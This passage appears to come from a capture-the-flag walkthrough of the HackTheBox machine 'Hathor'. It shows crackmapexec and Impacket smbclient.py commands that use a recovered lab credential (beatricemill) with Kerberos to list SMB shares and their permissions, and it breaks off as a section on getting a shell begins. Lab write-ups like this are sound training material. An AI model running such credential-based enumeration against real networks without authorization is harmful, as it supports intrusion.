
    oxdf@hacky$ crackmapexec smb hathor.windcorp.htb -k -d windcorp.htb -u beatricemill -p '!!!!ilovegood17' --shares 
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb [*]  x64 (name:hathor.windcorp.htb) (domain:windcorp.htb) (signing:True) (SMBv1:False)
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb [+] windcorp.htb\beatricemill:!!!!ilovegood17 
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb [+] Enumerated shares
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb Share           Permissions     Remark
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb -----           -----------     ------
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb ADMIN$                          Remote Admin
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb C$                              Default share
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb IPC$            READ            Remote IPC
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb NETLOGON        READ            Logon server share 
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb share           READ,WRITE      
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb SYSVOL          READ            Logon server share 



#### Impacket smbclient.py

The Impacket version of `smbclient.py` also works without setting the
name server:



    oxdf@hacky$ smbclient.py -k 'windcorp.htb/beatricemill:!!!!ilovegood17@hathor.windcorp.htb'
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

    [-] CCache file is not found. Skipping...
    Type help for list of commands
    # shares
    ADMIN$
    C$
    IPC$
    NETLOGON
    share
    SYSVOL



## Shell as GinaWild

### Enumerate share Share

I'll connect to the `share` share with `smbclient` see what's there. The
root has two executables and folder:

